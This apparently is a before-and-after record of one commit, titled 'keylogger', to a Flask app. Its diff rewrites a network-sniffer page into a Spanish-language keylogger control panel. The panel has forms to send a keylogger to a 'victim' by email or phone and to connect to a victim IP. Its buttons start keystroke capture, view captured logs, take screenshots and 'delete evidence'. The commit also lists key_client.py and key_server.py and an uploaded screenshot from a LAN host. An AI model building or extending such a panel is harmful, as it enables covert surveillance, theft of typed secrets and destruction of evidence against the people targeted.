

Before and after one commit to JulySanMen/chemoproy, a Flask app: page / in a window 1280 px wide. Shown: the whole page, without its empty margins (102-1177 px from the left). Run offline with Flask 3, Linux system fonts and the light colour scheme; lists and menus that the app fills with data are empty; some libraries are stand-ins or nearby versions.

Commit message:
keylogger

```diff
--- a/templates/keylogger.html
+++ b/templates/keylogger.html
@@ -1,42 +1,72 @@
 <!DOCTYPE html>
 <html lang="es">
 <head>
-    <meta charset="UTF-8">
-    <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Sniffer de Red</title>
-    <script src="https://cdnjs.cloudflare.com/ajax/libs/socket.io/4.0.1/socket.io.js"></script>
-    <style>
-        body { font-family: Arial, sans-serif; text-align: center; }
-        table { width: 80%; margin: 20px auto; border-collapse: collapse; }
-        th, td { padding: 10px; border: 1px solid black; }
-        th { background-color: #f2f2f2; }
-    </style>
+  <meta charset="UTF-8">
+  <title>Control de Keylogger</title>
+  <script src="https://cdn.tailwindcss.com"></script>
 </head>
-<body>
-    <h1>Sniffer de Red</h1>
-    <button onclick="iniciarSniffer()">Iniciar Sniffer</button>
-    <table>
-        <thead>
-            <tr>
-                <th>Origen</th>
-                <th>Destino</th>
-                <th>Protocolo</th>
-            </tr>
-        </thead>
-        <tbody id="paquetes"></tbody>
-    </table>
+<body class="bg-gray-900 text-white min-h-screen flex flex-col items-center py-10">
+  <h1 class="text-3xl font-bold mb-6">Panel Keylogger</h1>
 
-    <script>
-        var socket = io.connect("http://" + document.domain + ":" + location.port);
+  <!-- Formulario de envío -->
+  <form method="POST" action="/send_keylogger" class="bg-gray-800 p-6 rounded-xl shadow-md w-full max-w-md mb-6">
+    <h2 class="text-xl font-semibold mb-4">Enviar keylogger a víctima</h2>
+    <input type="text" name="correo" placeholder="Correo electrónico" class="w-full mb-3 px-3 py-2 bg-gray-700 rounded" />
+    <input type="text" name="numero" placeholder="Número telefónico" class="w-full mb-3 px-3 py-2 bg-gray-700 rounded" />
+    <button type="submit" class="w-full bg-indigo-600 hover:bg-indigo-500 text-white py-2 rounded">Enviar</button>
+    {% if mensaje %}
+    <p class="mt-4 text-green-400">{{ mensaje }}</p>
+    {% endif %}
+  </form>
 
-        function iniciarSniffer() {
-            socket.emit('iniciar_sniffer');
-        }
+  <!-- Control remoto -->
+  <form method="POST" action="/connect" class="bg-gray-800 p-6 rounded-xl shadow-md w-full max-w-md mb-6">
+    <h2 class="text-xl font-semibold mb-4">Conectar a máquina remota</h2>
+    <input type="text" name="ip" placeholder="IP víctima" value="{{ ip or '' }}" class="w-full mb-3 px-3 py-2 bg-gray-700 rounded" required />
+    <button type="submit" class="w-full bg-blue-600 hover:bg-blue-500 text-white py-2 rounded">Conectar</button>
+    {% if response %}
+    <p class="mt-4 text-yellow-400">Respuesta: {{ response }}</p>
+    {% endif %}
+  </form>
 
-        socket.on('nuevo_paquete', function(data) {
-            let fila = `<tr><td>${data.origen}</td><td>${data.destino}</td><td>${data.protocolo}</td></tr>`;
-            document.getElementById("paquetes").innerHTML += fila;
-        });
-    </script>
+  {% if ip %}
+  <div class="grid grid-cols-1 md:grid-cols-2 gap-4 max-w-3xl w-full">
+
+    <form method="POST" action="/start" class="bg-gray-800 p-4 rounded-xl">
+      <input type="hidden" name="ip" value="{{ ip }}">
+      <button type="submit" class="w-full bg-green-600 hover:bg-green-500 py-2 rounded">Iniciar Keylogger</button>
+    </form>
+
+    <form method="POST" action="/view_logs" class="bg-gray-800 p-4 rounded-xl">
+      <input type="hidden" name="ip" value="{{ ip }}">
+      <button type="submit" class="w-full bg-yellow-600 hover:bg-yellow-500 py-2 rounded">Ver Logs</button>
+    </form>
+
+    <form method="POST" action="/screenshot" class="bg-gray-800 p-4 rounded-xl">
+      <input type="hidden" name="ip" value="{{ ip }}">
+      <button type="submit" class="w-full bg-pink-600 hover:bg-pink-500 py-2 rounded">Captura de Pantalla</button>
+    </form>
+
+    <form method="POST" action="/delete" class="bg-gray-800 p-4 rounded-xl">
+      <input type="hidden" name="ip" value="{{ ip }}">
+      <button type="submit" class="w-full bg-red-600 hover:bg-red-500 py-2 rounded">Borrar Evidencia</button>
+    </form>
+
+  </div>
+  {% endif %}
+
+  {% if log %}
+  <div class="w-full max-w-4xl mt-8">
+    <h3 class="text-xl font-semibold mb-2">Logs capturados</h3>
+    <textarea readonly class="w-full h-64 p-4 bg-gray-800 text-green-400 rounded">{{ log }}</textarea>
+  </div>
+  {% endif %}
+
+  {% if screenshot %}
+  <div class="w-full max-w-xl mt-8 text-center">
+    <h3 class="text-xl font-semibold mb-2">Captura de pantalla</h3>
+    <img src="{{ url_for('static', filename='uploads/' + screenshot.split('/')[-1]) }}" class="rounded-lg shadow" />
+  </div>
+  {% endif %}
 </body>
 </html>
```
Also changed, not shown: def/app.py (added, +42 -0 lines), def/app2.py (renamed from app2.py), def/apppro.py (renamed from apppro.py), def/indexpro.html (renamed from indexpro.html), def/key_client.py (renamed from key_client.py), def/key_server.py (renamed from key_server.py), static/uploads/screenshot_from_192_168_1_91.png (added).
